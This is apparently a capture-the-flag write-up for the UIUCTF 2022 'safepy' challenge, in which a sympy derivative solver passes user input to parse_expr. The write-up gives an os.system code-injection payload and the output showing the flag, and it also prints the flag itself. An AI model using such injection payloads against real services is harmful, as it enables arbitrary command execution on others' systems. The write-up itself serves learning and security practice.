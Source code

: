 ```yaml
---
title: UIUCTF 2022
author: Cerberus
date: 2022-08-01
categories: [writeups, UIUCTF 2022]
tags: [python, pyjail]
---
```


## rev/safepy

**Description: godlike snake with a nebula behind it and math equations floating around it**

[challenge file](https://2022.uiuc.tf/files/d242f7830f4f4a51cd068df3decf7612/handout.tar.gz?token=eyJ1c2VyX2lkIjoxMzQsInRlYW1faWQiOjE2MywiZmlsZV9pZCI6NjU3fQ.YuVUdA.TU9BWpZir1-_AH5A1PBXGTFfkO8)

Given python script

```python
from sympy import *


def parse(expr):
    # learned from our mistake... let's be safe now
    # https://stackoverflow.com/questions/33606667/from-string-to-sympy-expression
    # return sympify(expr)

    # https://docs.sympy.org/latest/modules/parsing.html
    return parse_expr(expr)


print('Welcome to the derivative (with respect to x) solver!')
user_input = input('Your expression: ')
expr = parse(user_input)
deriv = diff(expr, Symbol('x'))
print('The derivative of your expression is:')
print(deriv)
```

This issue in github shows the vulnerability in **parse_expr**.

[vulnerable explanation](https://github.com/sympy/sympy/issues/10805#issuecomment-1002147366)

**payload:**
```python
__import__("os").system("cd / && cat flag")
```

**Output**
```shell
== proof-of-work: disabled ==
Welcome to the derivative (with respect to x) solver!
Your expression: __import__("os").system("cd / && cat flag")
uiuctf{na1v3_0r_mal1ci0u5_chang3?}

The derivative of your expression is:
0
```

**flag:uiuctf{na1v3_0r_mal1ci0u5_chang3?}**